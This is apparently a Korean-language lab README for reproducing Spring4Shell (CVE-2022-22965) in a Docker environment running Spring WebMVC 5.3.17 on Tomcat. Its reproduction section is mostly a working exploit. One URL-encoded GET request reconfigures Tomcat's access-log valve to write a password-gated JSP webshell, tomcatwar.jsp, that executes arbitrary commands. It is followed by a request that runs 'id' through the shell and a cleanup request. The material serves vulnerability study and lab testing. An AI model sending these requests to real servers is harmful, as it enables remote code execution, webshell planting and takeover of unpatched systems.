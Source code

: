 # Spring Framework RCE via Data Binding on JDK 9+ (CVE-2022-22965)

JDK 9+에서 실행되는 Spring MVC 또는 Spring WebFlux 응용 프로그램은 데이터 바인딩을 통해 원격 코드 실행(RCE)에 취약할 수 있습니다. 이 특정 공격을 사용하려면 응용 프로그램이 WAR 배포로 Tomcat에서 실행되어야 합니다. 응용 프로그램이 Spring Boot 실행 파일 jar, 즉 기본값으로 배포되면 이 공격에 취약하지 않습니다. 그러나 이 취약성의 특성은 일반적이며 이를 이용할 수 있는 다른 방법이 있을 수 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22965>
- <https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

## 취약성 환경

Spring WebMVC 5.3.17을 사용하는 서버를 시작하려면 다음 명령을 실행합니다:

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/?name=Bob&age=25`를 검색하면 예시 페이지가 나타납니다.

## 취약성 재현

Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보내고 로그를 JSP 파일로 씁니다:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

![](1.png)

그런 다음 JSP 웹쉘을 사용하여 임의 명령을 성공적으로 실행할 수 있습니다:

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![](2.png)

JSP 웹셸을 크게 만들지 않으려면 `class.module.classLoader.resources.context.parent.pipeline.first.pattern`을 지워야 합니다. 모든 요청 로깅이 해당 파일에 기록되기 때문입니다. 속성을 지우려면 다음 요청을 보냅니다:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```
